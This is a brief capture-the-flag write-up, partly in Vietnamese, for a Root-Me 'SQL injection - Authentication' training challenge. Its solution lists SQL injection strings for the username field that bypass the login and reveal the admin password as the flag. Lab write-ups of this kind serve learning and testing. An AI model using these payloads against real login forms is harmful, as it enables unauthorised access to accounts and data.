 # SQL injection - Authentication

\*\*\* Link: http://challenge01.root-me.org/web-serveur/ch9/

## Request

![](form.PNG)

# Solution

```
    - Tấn công SQL injection với username là một trong những lệnh sau:
    + admin' --
    + *admin' */
    + admin' or '1' = '1

    Chọn password tuỳ ý.

    Cờ sẽ là password của admin.

```
